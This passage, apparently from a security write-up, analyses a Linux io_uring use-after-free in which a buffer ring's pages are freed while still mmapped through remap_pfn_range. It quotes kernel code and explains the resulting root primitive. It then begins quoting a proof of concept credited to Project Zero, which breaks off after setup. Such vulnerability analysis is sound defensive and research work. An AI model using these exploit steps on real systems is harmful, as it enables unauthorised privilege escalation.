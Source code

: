 ```c
				unpin_user_page(bl->buf_pages[j]);
			kvfree(bl->buf_pages);
			bl->buf_pages = NULL;
			bl->buf_nr_pages = 0;
		}
		/* make sure it's seen as empty */
		INIT_LIST_HEAD(&bl->buf_list);
		bl->is_mapped = 0;
		return i;
	}
/*...*/
}
```

Notice the call to `folio_put(virt_to_folio(bl->buf_ring))`, which decrements the folio/page reference count.

The vulnerability is that `remap_pfn_range()` is a lower-level API tha map a given physical address range into userspace creating `VM_PFNMAP` VMAs. `VM_PFNMAP` mappings are special, because unlike normal memory mappings, there is no lifetime information associated with the mapping - it is just a raw mapping of PFNs with no reference counting of a 'struct page';  therefore, the caller is responsible for holding references to the page as long as it is mapped into userspace.

```c
static __cold int io_uring_mmap(struct file *file, struct vm_area_struct *vma)
{
	size_t sz = vma->vm_end - vma->vm_start;
	unsigned long pfn;
	void *ptr;

	ptr = io_uring_validate_mmap_request(file, vma->vm_pgoff, sz);
	if (IS_ERR(ptr))
		return PTR_ERR(ptr);

	pfn = virt_to_phys(ptr) >> PAGE_SHIFT;
	return remap_pfn_range(vma, vma->vm_start, pfn, sz, vma->vm_page_prot);
```

So if a user registers a buffer ring with `IORING_REGISTER_PBUF_RING`, `mmap()` it, and then frees it with `IORING_UNREGISTER_PBUF_RING`, the user will gain the ability to read or write already freed pages, it's a well-known universal root primitive.

A poc taken from [Linux >=6.4: io_uring: page UAF via buffer ring mmap - Project Zero](https://project-zero.issues.chromium.org/issues/42451653):

```c
#define _GNU_SOURCE
#include <err.h>
#include <linux/io_uring.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/syscall.h>
#include <unistd.h>

#define SYSCHK(x) ({ \
typeof(x) __res = (x); \
if (__res == (typeof(x))-1) \
err(1, "SYSCHK(" #x ")"); \
__res; \
})

int main(void) {
  struct io_uring_params params = {.flags = IORING_SETUP_NO_SQARRAY};
  int uring_fd = SYSCHK(syscall(__NR_io_uring_setup, /*entries=*/40, &params));
  printf("uring_fd = %d\n", uring_fd);
```